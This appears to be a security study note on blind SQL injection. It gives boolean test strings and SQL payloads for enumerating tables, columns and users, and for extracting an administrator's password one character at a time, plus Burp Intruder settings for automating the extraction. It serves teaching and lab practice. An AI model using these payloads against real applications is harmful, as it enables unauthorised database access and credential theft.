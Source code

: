 - `' and '1'='1`
- `' and '1'='2`
- `' and 1=1--`
- `' and 1=2--`

Once we can identify how the application responds to a True vs False query, we can use the below payloads to extract useful information. Depending on the response we receive, we know that the query injected is either valid or invalid.

Even though UNION attacks won't do us any good here in Blind SQLi, this technique can still be used to enumerate table names:

For example, to enumerate table names:

```sql
'and (select 'a' from {tableName} limit 1)='a
```

```sql
'union select 'a' from {tableName} where 1=1--
```

You can also enumerate column names - the 2nd payload requires you to know at least 1 username on the database:

```sql
'union select {columnName} from users where 1=1--
```

```sql
'union select 'a' from users where {columnName}='administrator'--
```

For payloads to enumerate valid users that are in a column called username:

```sql
'and (select 'a' from users where username='{userName}')='a
```

For payloads to determine the length of a user's password - this uses a table called users and 2 columns called username and password:

```sql
' and (select 'a' from users where username='administrator' and length(password)>10)='a
```

And for payloads to extract the password of a user 1 character at a time:

```sql
' and (select substring(password,1,1) from users where username='administrator')='{character}
```

>[!info]
>Burp Intruder or the script in the "Scripts" folder can be used to help automate the extraction of password.

For Burp Intruder use the following configurations:

- Attack Type: Cluster Bomb
- Payload Positions: 2 position markers need to be set:
	- The first one should be on the character offset position in the password --> `...substring(password, $$, 1)`
	- The second marker should be on the actual character to test --> `...where username='administrator')='$$`
- Payloads
	- First marker - Numbers from 1 to 20
	- Second marker - include alphanumeric characters (Burp Pro has a payload list)
